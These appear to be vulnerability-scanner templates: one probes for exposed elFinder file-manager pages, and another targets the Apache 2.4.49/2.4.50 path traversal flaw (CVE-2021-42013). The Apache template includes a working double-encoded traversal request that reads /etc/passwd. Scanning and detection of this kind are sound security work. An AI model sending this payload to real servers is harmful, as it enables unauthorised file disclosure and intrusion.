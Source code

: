 - {{BaseURL}}/admin/elfinder/elfinder-cke.html
- {{BaseURL}}/assets/backend/elfinder/elfinder-cke.html
- {{BaseURL}}/assets/elFinder-2.1.9/elfinder.html
- {{BaseURL}}/assets/elFinder/elfinder.html
- {{BaseURL}}/backend/elfinder/elfinder-cke.html
- {{BaseURL}}/elfinder/elfinder-cke.html
- {{BaseURL}}/uploads/assets/backend/elfinder/elfinder-cke.html
- {{BaseURL}}/uploads/assets/backend/elfinder/elfinder.html
- {{BaseURL}}/uploads/elfinder/elfinder-cke.html

### Matchers

**Type - word**

- words
  1. elfinder
  2. php/connector
- condition - and

**Type - status**

- status
  1. 200

---

# Apache 2.4.49/2.4.50 - Path Traversal and Remote Code Execution

## Description

- A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49 and 2.4.50. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally, this flaw could leak the source of interpreted files like CGI scripts. In certain configurations, for instance if mod_cgi is enabled, this flaw can lead to remote code execution. This issue only affects Apache 2.4.49 and 2.4.50 and not earlier versions. Note - CVE-2021-42013 is due to an incomplete fix for the original vulnerability CVE-2021-41773.

- severity - critical
- tags - cve,cve2021,lfi,apache,rce,misconfig,traversal,kev

## Requests

### Step - 1

```
GET /icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```

